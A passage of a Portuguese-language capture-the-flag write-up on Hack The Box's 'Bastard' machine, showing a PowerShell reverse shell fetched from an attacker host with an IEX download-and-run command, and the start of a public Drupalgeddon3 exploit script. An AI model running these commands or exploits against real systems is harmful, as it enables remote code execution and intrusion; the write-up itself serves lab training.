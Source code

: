 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_n.png)

Adicionamos a função `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.117-Port 443` no final do arquivo, colocamos em uma pasta onde vou abrir um servidor python web e abrimos un nc na porta 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_n1.png)

Agora executamos no druppalgedon2 e ganhamos uma shell melhor de trabalhar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_n2.png)

> powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_n3.png)

Agora vamos explorar outro modo de se ganhar shell através do drupal

# Explorando Drupal (shell de iusr - 4º Modo - Através do Druppalgedon3)

Bom, já que temos autenticação no servidor, podemos executar outros exploits também

Pesquisamos por exploits com o searchsploit encontramos um que nos interessou bastante

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_dp3.png)

Passamos ele para nossa máquina para melhor trabalhar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_dp31.png)

Aqui fala que devemos estar autenticados e com o poder de deletar um node, já estamos autenticados como admin, então podemos tentar executar ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_dp32.png)

Aqui já temos um script em python que explora essa vulnerabilidade

> https://raw.githubusercontent.com/oways/SA-CORE-2018-004/master/drupalgeddon3.py

```
#!/usr/bin/python

'''
Author: Oways
https://twitter.com/0w4ys
https://github.com/oways

[Usage]
python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]

[Example]
python drupalgeddon3.py http://target/drupal/ 'SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0' 6 'uname -a'

'''
import requests
import re, sys

try:
  host=sys.argv[1]
  session={'cookie': sys.argv[2]}
  node=sys.argv[3]
  command=sys.argv[4]

  r = requests.get('%s/node/%s/delete'%(host,node),headers=session, verify=False)
```